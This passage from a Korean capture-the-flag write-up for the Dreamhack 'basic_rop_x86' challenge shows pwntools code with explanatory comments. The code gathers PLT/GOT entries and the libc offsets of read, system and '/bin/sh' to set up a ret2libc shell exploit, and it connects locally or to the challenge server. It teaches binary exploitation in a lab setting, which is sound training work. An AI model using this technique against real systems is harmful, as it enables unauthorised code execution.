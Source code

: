 #### 5) read 함수와 system 함수의 symbols 옵셋 구하기 / sh 주소 구하기
``` python 
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
read_offset = libc.symbols["read"]
: libc.so.6 안에 정의된 read() 함수의 오프셋(상대 주소).
: libc는 메모리에 로드될 때 base 주소가 랜덤이지만, base + offset = 실제 주소 가 성립함.
: 따라서 leak한 read 주소에서 base를 구할 수 있음:
: libc_base = leaked_read - read_offset

system_offset = libc.symbols["system"]
: libc 안의 system() 함수 오프셋. 
: system("/bin/sh") 실행을 위해 필요
: 나중에:
: system_addr = libc_base + system_offset

sh_offset = list(libc.search(b"/bin/sh"))[0]
: libc 메모리 안에서 "/bin/sh" 문자열을 찾음.
: libc.search(b"/bin/sh") → 제너레이터 반환 (주소 후보들).
: list(...)[0] → 첫 번째 /bin/sh 문자열의 오프셋.
: 최종 실제 주소는:
: binsh_addr = libc_base + sh_offset
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

```
